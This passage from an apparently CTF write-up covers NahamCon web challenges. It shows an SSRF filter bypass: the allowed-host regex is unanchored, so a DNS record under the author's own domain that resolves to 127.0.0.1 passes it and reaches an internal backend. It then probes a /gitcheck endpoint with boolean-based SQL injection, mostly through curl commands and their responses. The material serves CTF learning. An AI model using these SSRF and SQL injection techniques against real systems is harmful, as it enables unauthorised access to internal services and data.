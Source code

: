 It's failed.

Here, let's take a look at the h6d8kw.env file got in the previous Not For Your Eyes challenge.

```text
BACKEND_HOST_MATCH=^([a-z0-9]{1,})\.intigriti\.com
```

The h6d8kw.env file contains a regular expression for BACKEND_HOST_MATCH.
Since this regular expression does not end with `$`, I assume that requests will be sent to the backend if the domain starts with `foobar.intigriti.com`.
Therefore, I will add an A record to my personal domain, `foobar.intigriti.com.<mydomain>`, pointing to 127.0.0.1, and then make it accessible.

```console
$ dig +noall +answer test1.intigriti.com.<yourdomain>
test1.intigriti.com.<yourdomain>. 3575 IN A   127.0.0.1

$ curl -s http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain> -b "token-for-prod=$JWT"
{"contents":"{\"message\":\"Backend API Server\",\"flag\":\"flag{5686771192752953a36abf15bd264aba}\",\"paths\":[{\"url\":\"\\\/gitcheck\",\"description\":\"Checks for the latest version of our installed GitHub repos\"}]}"}
```

The flag is accepted as Going SSuRFing challenge.

### 6. GitGood at SSuRFing

In previous Going SSuRFing challenge, we got `{\"url\":\"\\\/gitcheck\",\"description\":\"Checks for the latest version of our installed GitHub repos\"}` response so sending a request for /gitcheck URL path.

```console
$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"Missing id parameter\"}"}

$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=1" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"Job is already set as completed\"}"}

$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=2" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"Job id not found\"}"}

$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=2'" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"Server Error\"}"}

$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=1+OR+1='2'" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"Job is already set as completed\"}"}

$ curl -s "http://challenge.nahamcon.com:30781/app/api/webhook?url=http://test1.intigriti.com.<yourdomain>/gitcheck?id=1+AND+1='2'" -b "token-for-prod=$JWT"
{"contents":"{\"error\":\"Job id not found\"}"}
```
